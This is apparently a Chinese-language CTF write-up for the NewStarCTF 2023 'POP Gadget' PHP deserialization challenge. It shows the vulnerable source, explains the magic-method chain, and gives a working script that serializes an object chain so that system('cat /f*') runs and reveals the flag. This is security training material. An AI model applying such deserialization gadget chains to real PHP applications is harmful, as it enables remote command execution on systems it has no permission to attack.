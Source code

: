 ```yaml
---
title: '[NewStarCTF 2023 公开赛道]POP Gadget'
date: 2025-03-02 14:29:12
tags: php反序列化
categories: 刷题笔记
---
```


## [NewStarCTF 2023 公开赛道]POP Gadget

```php
<?php
highlight_file(__FILE__);

class Begin{
    public $name;

    public function __destruct()
    {
        if(preg_match("/[a-zA-Z0-9]/",$this->name)){
            echo "Hello";
        }else{
            echo "Welcome to NewStarCTF 2023!";
        }
    }
}

class Then{
    private $func;

    public function __toString()
    {
        ($this->func)();
        return "Good Job!";
    }

}

class Handle{
    protected $obj;

    public function __call($func, $vars)
    {
        $this->obj->end();
    }

}

class Super{
    protected $obj;
    public function __invoke()
    {
        $this->obj->getStr();
    }

    public function end()
    {
        die("==GAME OVER==");
    }
}

class CTF{
    public $handle;

    public function end()
    {
        unset($this->handle->log);
    }

}

class WhiteGod{
    public $func;
    public $var;

    public function __unset($var)
    {
        ($this->func)($this->var);    
    }
}

@unserialize($_POST['pop']);
```

php反序列化的题

![image-20250302144017861](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503021440949.png)

我们发现5存在命令执行漏洞，所以我们需要触发5的__unset魔术方法，逐渐往上推，我们就能发现从1->2->3->4->5的反序列化链了

```php
<?php
highlight_file(__FILE__);

class Begin{
    public $name;
    
}

class Then{
    public $func;

}

class Handle{
    public $obj;

}

class Super{
    public $obj;

}

class CTF{
    public $handle;
    
}

class WhiteGod{
    public $func="system";
    public $var="cat /f*";
}

$pop=new Begin();
$pop->name=new Then();
$pop->name->func=new Super();
$pop->name->func->obj=new Handle();
$pop->name->func->obj->obj=new CTF();
$pop->name->func->obj->obj->handle=new WhiteGod();
echo serialize($pop);
```

运行，提交，得到flag

![image-20250302145055319](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503021450363.png)
